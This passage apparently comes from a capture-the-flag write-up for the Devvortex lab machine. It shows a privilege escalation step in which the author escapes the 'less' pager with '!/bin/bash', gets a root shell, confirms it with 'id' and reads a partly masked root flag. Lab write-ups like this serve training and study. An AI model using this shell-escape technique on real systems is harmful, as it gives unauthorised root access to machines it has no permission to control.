 To escape from `less`, I'll type `!/bin/bash`, and I'm dropped to a root
shell:



    root@devvortex:/home/logan# id
    uid=0(root) gid=0(root) groups=0(root)



And I'll grab the root flag:



    root@devvortex:~# cat root.txt
    79bd5241************************







